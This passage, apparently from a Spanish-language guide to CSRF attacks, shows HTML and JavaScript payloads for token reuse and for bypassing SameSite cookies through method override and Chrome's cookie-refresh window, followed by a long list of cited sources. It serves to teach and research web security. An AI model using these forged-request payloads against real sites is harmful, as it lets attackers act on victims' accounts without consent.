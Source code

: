 ```html
<!-- El atacante obtiene su propio token válido -->
<form action="https://victima.com/sensitive_action" method="post">
  <input type="hidden" name="csrf_token" value="ATACANTE_VALID_TOKEN">
  <input type="hidden" name="action" value="malicious_action">
</form>
```

### Bypasses de SameSite Cookies

Aunque SameSite=Lax es ahora el default en navegadores modernos, existen múltiples técnicas de bypass:[^11]

#### 1. Method Override Bypass[^13]

Los frameworks que soportan HTTP Method Override pueden ser vulnerables:

```html
<!-- Bypass usando _method parameter -->
<form action="https://victima.com/api/delete" method="GET">
  <input type="hidden" name="_method" value="DELETE">
  <input type="hidden" name="resource_id" value="critical_data">
</form>
```

```html
<!-- Bypass usando header override -->
<script>
fetch('https://victima.com/api/sensitive', {
  method: 'GET',
  credentials: 'include',
  headers: {
    'X-HTTP-Method-Override': 'POST'
  }
});
</script>
```

#### 2. SameSite Lax Cookie Refresh Bypass[^11]

Chrome no aplica restricciones SameSite durante los primeros 120 segundos después de establecer una cookie:

```html
<script>
// Forzar refresh de cookie abriendo nueva pestaña
window.onclick = () => {
  window.open('https://victima.com/login/oauth');
  // Esperar un momento y luego ejecutar CSRF
  setTimeout(() => {
    document.getElementById('csrf_form').submit();
  }, 1000);
};
</script>
```


[^1]: https://www.invicti.com/web-application-vulnerabilities/ampache-cross-site-request-forgery-csrf-vulnerability-cve-2024-51489
[^2]: https://learn.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?view=aspnetcore-9.0
[^3]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-56924
[^4]: https://www.invicti.com/web-application-vulnerabilities/ampache-cross-site-request-forgery-csrf-vulnerability-cve-2024-47828
[^5]: https://infosecwriteups.com/csrf-in-2025-solved-but-still-bypassable-942ca382ab77
[^6]: https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/CSRF
[^7]: https://brightsec.com/blog/csrf-example/
[^8]: https://www.cobalt.io/blog/csrf-bypasses
[^9]: https://www.intigriti.com/researchers/blog/hacking-tools/csrf-a-complete-guide-to-exploiting-advanced-csrf-vulnerabilities
[^10]: https://www.linkedin.com/pulse/bypassing-unpredictable-csrf-tokens-muvhango-magatshavha-jl7lf
[^11]: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions
[^12]: https://hazanasec.github.io/2023-07-30-Samesite-bypass-method-override.md/
[^13]: https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/
[^14]: https://osintteam.blog/web-security-academy-csrf-samesite-lax-bypass-via-cookie-refresh-775f4f6efdc2
[^15]: https://owasp.org/www-chapter-london/assets/slides/David_Johansson-Double_Defeat_of_Double-Submit_Cookie.pdf
[^16]: https://sallam.gitbook.io/sec-88/write-ups/exploiting-json-based-csrf-the-hidden-threat-in-profile-management
[^17]: https://bugbase.ai/blog/how-to-bypass-csrf-protection
[^18]: https://stackoverflow.com/questions/11008469/are-json-web-services-vulnerable-to-csrf-attacks
[^19]: https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/
[^20]: https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
[^21]: https://outpost24.com/blog/csrf-attacks-simplified-guide/
[^22]: https://www.certuscyber.com/insights/bypass-samesite-cookie/
[^23]: https://zuplo.com/learning-center/preventing-cross-site-request-forgery-in-apis
[^24]: https://www.stackhawk.com/blog/react-csrf-protection-guide-examples-and-how-to-enable-it/
[^25]: https://moldstud.com/articles/p-comparing-csrf-protection-methods-lumen-vs-other-frameworks
[^26]: https://www.incibe.es/index.php/en/incibe-cert/early-warning/vulnerabilities/cve-2024-52402
[^27]: https://portswigger.net/web-security/csrf
[^28]: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override
[^29]: http://scielo.sld.cu/scielo.php?script=sci_abstract\&pid=S2306-24952024000700133\&lng=en\&nrm=iso
[^30]: https://learn.snyk.io/lesson/csrf-attack/
[^31]: https://stackoverflow.com/questions/79368322/how-to-bypass-samesite-cookie-restriction-in-microsoft-edge-during-local-develop
[^32]: https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-ise-csrf-y4ZUz5Rj
[^33]: https://www.imperva.com/learn/application-security/csrf-cross-site-request-forgery/
[^34]: https://www.youtube.com/watch?v=ucHEU1Z9DhU
[^35]: https://nvd.nist.gov/vuln/detail/CVE-2024-51484
[^36]: https://en.wikipedia.org/wiki/Cross-site_request_forgery
[^37]: https://vulnapi.cerberauth.com/docs/vulnerabilities/security-misconfiguration/http-method-allow-override
[^38]: https://www.linkedin.com/pulse/how-double-submit-cookie-prevent-csrf-viral-parmar-qzyqc
[^39]: https://www.youtube.com/watch?v=Jv-LXLID3VA
[^40]: https://www.webasha.com/blog/how-does-csrf-lead-to-account-takeover-real-world-example-and-exploit-chain-explained
[^41]: https://brightsec.com/blog/csrf-mitigation/
[^42]: https://github.com/obiba/opal/security/advisories/GHSA-27vw-29rq-c358
[^43]: https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie
[^44]: https://www.invicti.com/blog/web-security/protecting-website-using-anti-csrf-token/
[^45]: https://stackoverflow.com/questions/73031478/is-the-double-submit-cookie-pattern-really-safe
[^46]: https://www.wiz.io/academy/cross-site-request-forgery-csrf
[^47]: https://www.acceis.fr/csrf-get-samesite-concrete-attack/
[^48]: https://www.bitsight.com/blog/web-application-security-devops-anti-csrf-and-cookie-samesite-options
[^49]: https://heycoach.in/blog/cross-site-request-forgery-csrf-prevention-techniques/
[^50]: https://www.sciencedirect.com/science/article/pii/S2667295221000258
[^51]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-22424
[^52]: https://infosecwriteups.com/how-i-exploited-a-hidden-csrf-vulnerability-and-how-you-can-prevent-it-d089ad23887d
[^53]: https://www.openwall.com/lists/oss-security/2024/11/16/2
